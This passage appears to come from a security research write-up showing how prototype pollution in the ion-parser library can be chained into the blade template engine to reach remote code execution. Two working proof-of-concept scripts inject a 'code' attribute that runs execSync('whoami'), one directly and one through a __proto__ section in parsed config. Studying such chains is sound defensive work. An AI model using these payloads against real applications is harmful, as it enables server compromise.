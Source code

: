                         (i == "class" && attrs[i].append ?
                            ",a:" + JSON.stringify(attrs[i].append): "") + "}";
** truncated **
{% endhighlight %}

It seems like if we are able to inject a node with code attribute, we would be able to inject arbitrary JavaScript into the final compiled template and when executed in the runtime, give us RCE.

We can test this out by running the following:

{% highlight javascript linenos %}
const blade = require('blade');

Object.prototype.someprop = {
    'name': 'somename',
    'value': 'somevalue',
    'code' : "process.mainModule.require('child_process').execSync(`whoami`)"
};

const template = `html
    head
        title Blade
    body
        #nav
            ul
                - for(var i in nav)
                    li
                        a(href=nav[i])= i
        #content.center
            h1 Blade is cool`;
blade.compile(template, {'debug': true}, function(err, tmpl) {
    tmpl({'nav': []}, function(err, html) {
        console.log(html, err);
    });
});
{% endhighlight %}

With that, we can combine our exploit for **ion-parser** and **blade**, to exploit the prototype pollution in **ion-parser** in order to inject into the AST for **blade** giving us RCE.

{% highlight javascript linenos %}
const blade = require('blade');
const { parse } = require('ion-parser')
const config = parse(`
test = 'Hey universe'

[__proto__.someprop]
name = "somename"
value = "somevalue"
code = "process.mainModule.require('child_process').execSync(\`whoami\`)"
`)

const template = `html
    head
        title Blade
    body
        #nav
            ul
                - for(var i in nav)
                    li
                        a(href=nav[i])= i
        #content.center
            h1 Blade is cool`;
blade.compile(template, {'debug': true}, function(err, tmpl) {
    tmpl({'nav': []}, function(err, html) {
        console.log(html, err);
    });
});